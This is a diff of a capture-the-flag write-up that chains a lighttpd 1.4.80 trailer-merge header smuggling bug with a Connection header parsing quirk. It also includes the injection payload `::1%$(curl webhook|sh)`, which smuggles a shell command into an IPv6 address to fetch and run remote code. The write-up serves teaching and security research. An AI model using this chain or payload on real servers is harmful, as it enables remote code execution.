

Before and after one commit to sebastianosrt/My-CTF-Challenges, a Markdown page: m0lecon-2026-teaser/trailing-danger/writeup.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/m0lecon-2026-teaser/trailing-danger/writeup.md
+++ b/m0lecon-2026-teaser/trailing-danger/writeup.md
@@ -25,15 +25,14 @@ def ping(ip_address: str):
 
 ## Solution
 
-### 1. TR.MRG HTTP Request Smuggling
+### 1. Header smuggling due to trailers merge into headers
 
-Lighttpd 1.4.80 is used as proxy. This version is vulnerable to HTTP Header Smuggling due to trailer fields merge with headers,
-you can find the fix for the vulnerability here: [[core] security: fix to reject disallowed trailers](https://github.com/lighttpd/lighttpd1.4/commit/35cb89c103877de62d6b63d0804255475d77e5e1).
+Lighttpd 1.4.80 is used as proxy. This version is vulnerable to **HTTP Header Smuggling due to trailer fields merge into headers**. This vulnerability allows to overwrite the request headers values after the parsing of the request headers and body. The fix for for it can be found here: [[core] security: fix to reject disallowed trailers](https://github.com/lighttpd/lighttpd1.4/commit/35cb89c103877de62d6b63d0804255475d77e5e1).
 
 the fix commit states that:
 > lighttpd mod_proxy sends Connection: close to backends, so this bug isnot exploitable to send additional requests to backends
 
-To make the bug exploitable we have to exploit another (common) parsing bug in webservers:
+To make the bug exploitable and turn it into a Request Smuggling, another parsing bug has to be exploited:
 
 ### 2. Connection header parsing bug
 
@@ -42,7 +41,9 @@ Many web servers only close a connection when they see the literal header `Conne
 However, [RFC 9110](https://www.rfc-editor.org/rfc/rfc9110#name-connection) allows the `Connection` header to carry multiple, comma-separated options, which must be parsed as independent tokens.
 If the token `close` appears anywhere in that list, the connection **must not persist** (see [RFC 9112](https://www.rfc-editor.org/rfc/rfc9112.html#name-persistence)).
 
-When lighttpd encounters these headers in the trailers:
+---
+
+When lighttpd encounters these headers:
 ```
 TE: trailers
 Upgrade: any
@@ -71,7 +72,7 @@ this gives us enough characters to build a valid IPv6 address that can contain s
  `::1%$(curl webhook|sh)`
 
 
-### Connecting the dots
+### Connecting the dots - TR.MRG HTTP Request Smuggling
 
 Send the following request to lighttpd:
 ```http
````
